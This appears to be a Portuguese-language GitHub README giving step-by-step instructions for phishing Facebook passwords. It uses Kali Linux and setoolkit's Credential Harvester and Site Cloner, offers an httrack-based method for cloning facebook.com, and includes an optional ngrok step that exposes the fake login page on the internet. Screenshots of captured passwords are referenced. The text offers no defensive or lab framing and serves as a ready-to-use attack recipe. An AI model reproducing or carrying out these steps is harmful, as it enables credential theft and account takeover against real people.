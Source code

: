 # Phishing para captura de senhas do Facebook

### Ferramentas

- Kali Linux
- setoolkit
- httrack (Alternativo)
- ngrok (Opcional)

### Configurando o Phishing no Kali Linux

- Acesso root: ``` sudo su ```
- Iniciando o setoolkit: ``` setoolkit ```
- Tipo de ataque: ``` Social-Engineering Attacks ```
- Vetor de ataque: ``` Web Site Attack Vectors ```
- Método de ataque: ```Credential Harvester Attack Method ```
- Método de ataque: ``` Site Cloner ```
- Obtendo o endereço da máquina: ``` ifconfig ```
- URL para clone: http://www.facebook.com

### Método alternativo

- Acesso root: ``` sudo su ```
- Baixando httrack: ```apt install httrack```
- Clonando a página: ```httrack https://www.facebook.com -O /home/user/directory/facebook ```
- Iniciando o setoolkit: ``` setoolkit ```
- Tipo de ataque: ``` Social-Engineering Attacks ```
- Vetor de ataque: ``` Web Site Attack Vectors ```
- Método de ataque: ```Credential Harvester Attack Method ```
- Método de ataque: ``` Cloner Import ```
- ```Press Enter```
- Passando o caminho: ``` /home/user/directory/facebook/m.facebook.com/```
- Site clonado: ```m.facebook.com```
- Obtendo o endereço da máquina: ``` ifconfig ```
- Acessar utilizando ```ip.do.host:porta_host```

### Resutados

![Alt text](./psswd.png "Optional title")

### Opcional

- Instalando ngrok: ```https://ngrok.com/download```
- Seguir os processos de criação de conta e autenticação no site do ngrok.
- Liberando link na internet: ```"ngrok http ip.do.host:porta_host```

### Resutados

![Alt text](./psswdngrok.png "Optional title")
